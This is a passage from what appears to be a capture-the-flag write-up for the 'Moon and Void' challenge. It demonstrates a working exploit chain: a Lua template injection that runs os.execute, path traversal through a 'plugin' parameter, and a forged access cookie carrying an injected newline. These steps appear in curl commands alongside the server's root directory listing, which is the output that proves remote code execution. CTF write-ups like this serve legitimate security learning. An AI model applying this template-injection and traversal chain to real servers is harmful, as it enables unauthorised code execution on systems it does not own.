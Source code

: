 ```console
        (tail call): ?
        /usr/local/share/lua/5.1/orbit.lua:548: in function </usr/local/share/lua/5.1/orbit.lua:529>
        (tail call): ?
        (tail call): ?</pre></body></html>
```

So we can now execute templates via the following logic:

```lua
return web:page(web.input.plugin)
```

Recall that we can write arbitrary content to the disk using the service itself. This means that we can create a lua template which will give us remote code execution.

We submit:

```
$lua{[[
os.execute("ls -al / > /app/html/out.html")
]]}
```

We use the `plugin` endpoint to execute out submission as a template:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/The_Moon_and_Void]
└─$ curl --location --request POST 'https://moon-and-void.intent.ctf.today/plugin' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--header 'Cookie: access=qapwdadmin%0A' \
--data-urlencode 'plugin=../../../../../app/html/ytdinifpcxybeoebuufw.html'

<p></p>
```

And finally visit access `out.html`:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/The_Moon_and_Void]
└─$ curl --location --request POST 'https://moon-and-void.intent.ctf.today/plugin' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--header 'Cookie: access=qapwdadmin%0A' \
--data-urlencode 'plugin=../../../../../app/html/out.html'
total 24
drwxr-xr-x   1 root root    39 Dec 16 11:53 .
drwxr-xr-x   1 root root    39 Dec 16 11:53 ..
drwxr-xr-x   1 root root    18 Dec 15 14:35 app
drwxr-xr-x   1 root root   179 Dec 15 14:34 bin
drwxr-xr-x   2 root root     6 Sep  3 12:10 boot
drwxr-xr-x   5 root root   360 Dec 16 11:53 dev
drwxr-xr-x   1 root root    19 Dec 16 11:53 etc
drwxr-xr-x   1 root root    17 Dec 15 14:35 home
drwxr-xr-x   1 root root    41 Dec 15 14:35 lib
drwxr-xr-x   2 root root    34 Dec  5 00:00 lib64
drwxr-xr-x   2 root root     6 Dec  5 00:00 media
drwxr-xr-x   2 root root     6 Dec  5 00:00 mnt
drwxr-xr-x   2 root root     6 Dec  5 00:00 opt
dr-xr-xr-x 388 root root     0 Dec 16 11:53 proc
-rwsr-sr-x   1 root root 16864 Dec 15 14:35 readflag
drwx------   1 root root    22 Dec 15 14:35 root
drwxr-xr-x   1 root root    21 Dec 16 11:53 run
drwxr-xr-x   2 root root  4096 Dec  5 00:00 sbin
drwxr-xr-x   2 root root     6 Dec  5 00:00 srv
dr-xr-xr-x  13 root root     0 Dec 15 14:36 sys
drwxrwxrwt   1 root root     6 Dec 15 14:35 tmp
drwxr-xr-x   1 root root    19 Dec  5 00:00 usr
drwxr-xr-x   1 root root    17 Dec  5 00:00 var
```